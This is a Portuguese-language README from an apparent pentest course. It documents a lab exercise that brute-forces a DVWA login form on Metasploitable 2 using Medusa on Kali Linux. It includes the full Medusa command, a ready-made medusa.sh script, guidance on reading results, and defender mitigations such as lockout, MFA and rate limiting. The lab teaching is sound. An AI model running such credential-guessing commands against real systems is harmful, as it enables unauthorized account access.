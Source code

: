# Brute Force com Medusa no Kali Linux

> **Nota ética:** Este material descreve exercícios realizados em ambiente controlado e autorizado. **Não** utilize essas técnicas contra sistemas que você não tenha permissão para testar.

Olá — este README registra de forma direta e prática o trabalho que realizei no curso de **Penetração (Pentest)** usando ataques de **brute force** com **Medusa** em um laboratório local. Use como referência de estudo, sempre em ambientes autorizados.

---

## Ambiente de teste

* **VM atacante:** Kali Linux
* **VM alvo:** Metasploitable 2
* **Hypervisor:** VirtualBox
* **Tipo de rede:** Host-only (rede isolada entre VMs)

> Recomendo fortemente esse setup para aprender com segurança.

---

## O que contém este repositório

* `README.md` (este arquivo)
* `medusa.sh` (script de exemplo)
* `users.txt` (exemplo de wordlist de usuários — use entradas de teste)
* `pass.txt` (exemplo de wordlist de senhas — use entradas de teste)

---

## Ferramentas utilizadas

* **Medusa** — brute-force em paralelo (SSH, FTP, HTTP, etc.).
* **Kali Linux** — máquina atacante.
* **Metasploitable 2** — alvo intencionalmente vulnerável.
* **VirtualBox** — execução das VMs em rede Host-only.
* Utilitários: `dos2unix`, `bash`, `ssh`, `scp`.

---

## Preparando o ambiente (resumo dos passos)

1. Crie duas VMs no VirtualBox: Kali Linux e Metasploitable 2.
2. Configure a rede como **Host-only** para manter as VMs isoladas.
3. Ligue as VMs e descubra o IP do alvo (ex.: `192.168.56.101`).
4. No Kali, instale o Medusa se não estiver presente:

```bash
sudo apt update
sudo apt install -y medusa
```

5. Crie `users.txt` e `pass.txt` com uma entrada por linha.

---

## Exemplo de execução (brute force HTTP contra formulário)

Antes de rodar, confirme o caminho do formulário e o nome dos campos (ex.: `username`, `password`).

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' -t 6
```

* `-h` : IP do alvo
* `-U` : arquivo com usuários
* `-P` : arquivo com senhas
* `-M` : módulo (aqui `http`)
* `-m PAGE:` : página do formulário
* `-m FORM:` : payload do formulário usando `^USER^` e `^PASS^`
* `-m 'FAIL='` : string que indica tentativa falhada
* `-t` : número de threads

Interrompa com `Ctrl+C` quando precisar.

---

## Script pronto (`medusa.sh`)

Arquivo exemplo — ajuste IP e caminhos antes de usar.

```bash
#!/bin/bash
# medusa.sh - Exemplo para ambiente de teste
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' -t 6
```

Dê permissão de execução:

```bash
chmod +x medusa.sh
./medusa.sh
```

---

## Como interpretar os resultados

* O Medusa mostra combinações válidas no terminal.
* Se não encontrar nada, verifique:

  * Se as listas contêm as credenciais certas;
  * Se os nomes dos campos/form estão corretos (`email` vs `username`);
  * Se há proteção no servidor (bloqueio, rate-limit, CAPTCHA).

Registre horário, IP, listas usadas e saída do Medusa para auditoria.

---

## Aprendizados práticos (direto ao ponto)

* Laboratório isolado é obrigatório para aprendizado seguro.
* Qualidade das wordlists é crucial.
* Ajustes finos em `FORM`, `PAGE` e `FAIL` são necessários para web.
* Controles simples no servidor (bloqueio, MFA, CAPTCHA) limitam brute force.
* Documentar tudo aumenta rastreabilidade.

---

## Boas práticas e mitigação (para defensores)

* Bloqueio de conta temporário após várias tentativas falhas.
* Autenticação multifator (MFA).
* Monitoramento de logs e detecção de padrões de ataques automatizados.
* Rate limiting e CAPTCHAs quando aplicável.

---

## Publicação no GitHub

1. Crie um repositório (recomendo `private` se houver qualquer dado sensível).
2. Adicione `README.md`, `medusa.sh`, `users.txt` e `pass.txt` **somente** com exemplos inofensivos.
3. Inclua `LICENSE` (ex.: MIT) e um `DISCLAIMER` sobre uso ético/educacional.

---

## Aviso legal e ético

Este material é educativo. Não use técnicas aqui descritas contra sistemas sem autorização.

---

## Autor

Mateus Dias Moreira



